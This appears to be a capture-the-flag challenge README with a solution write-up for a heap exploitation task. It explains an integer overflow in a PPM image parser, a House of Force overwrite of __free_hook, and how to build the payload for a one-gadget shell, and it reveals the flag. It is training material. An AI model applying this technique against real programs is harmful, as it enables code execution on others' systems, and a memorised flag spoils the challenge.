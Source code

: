 # House of big chungus

This repo contains the _pwn_ challenge `House of big chungus`.
This is a heap exploitation challenge based on the `House of force` technique.

# Flag(s) 
`DDC{===WIDE_WILDERNESS===}`

# Domain name (OR) Link to challenge on nextcloud
`chungus.hkn`

# Description(s) (THIS IS WHAT THE USER WILL SEE, YOU CAN USE MARKDOWN HERE))
ZanderDK once said "I wish we could use the big chungus here",
I still have no clue what he meant.

# Prerequisites and Outcome

Prerequisites
- Know the house of force technique for heap exploitation.
Outcome
- We know you can use HOF.

# Solutions (FULL WRITEUP FOR EACH FLAG.)
The challenge consists of a single binary, it's source, and libc running on the remote server.

The binary is a janky P3 PPM image format reader.
PPM is an ascii format for images of the following form

```
P3
[sizex] [sizey]
[maxvalue]
[byte1] [byte2] ...
```

Reading the source for the parse one might notice the following statement:
```c
if (image->size > MAX_IMG_SIZE) {
        data = (char*)malloc(MAX_IMG_SIZE+1);
} else {
        data = (char*)malloc(image->size+1);
}
```
here image->size is a signed size. Meaning by suppliying a very large number, we can pass into the else branch with a very big image->size value.
We will then read in the image line by line into the `data` heap object.
By supplying `-1` as the image size, the expression at the malloc size argument will evaluate to 0, essentially allocating only 32 bytes but keeping the `image->size` very large.

This is one vulnerability of integer overflow, and signed comparison.
Next is the overflow that this allows the hacker to perform. Because the heap buffer is now 32 bytes big and the program will read up to `0xffffffffffffffff` bytes in, it will overflow into the top-chunk.

The HOF explains how by crafting a very large top chunk and controlling a later malloc'd size, we can make any subsequent malloc call return an arbitrary pointer.

Let us say we did the basic overflow and made the size of the top chunk `0xfffffffffffffff0` by sending a file such as this:
```
P3
2753074036095 6700417 // this = -1
0
255 255 255 255 255 255 255 255 255 255 255 255
100 100 100 100 100 100 200 200 200 200 200 200
240  255  255  255  255  255  255  255  20  20  20  20
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ This is the size field 
```
We now have a very big top chunk.
The next malloc in the program is here:
```
// Count the bytes
malloc(image->maxval);
```

And we want to allocate up until where we want to write, in my exploit i use the known __free_hook in libc. 
The size we want to pass as `maxval` is then 
```py
size = (free_hook-heap_base)-0x2c0
```
This address is easily bruteforcable when you understand the concept, the 0x2c0 constant i just found locally.

Now the next chunk that malloc will allocate will be at free_hook-8.

```c
char *y = (char*)malloc(255); // This returns __free_hook-8
for (int i = 0; i < image->size; i++) {
    y[data[i]]++;
}
for (int i = 0; i < 255; i++) {
    printf("%d:\t%d", i, y[i]);
}
```
Now it will count each byte in the image and insert into this address.
By eg. supplying `8 8 8` it would set the __free_hook lowest byte to 8.

We can calculate this type of payload simply like this
```
gadget = 0x4f302 # magic one gadget found from libc
gadgetfmt = ""
target = p64(libc_base + gadget)
for i in range(len(target)):
    gadgetfmt += f"{str(i+8)} " * target[i]
```

It will generate something like 
```
8 8 9 9 9 10 10 10 [...] 13 13 13 13 13 
```
Witch will set the address at __free_hook to the target value (in this case a one gadget).
When the final free is called, it will invoke the __free_hook and in this case drop us a shell.
The full POC is found in `solve.py`
It works 80% of the time.
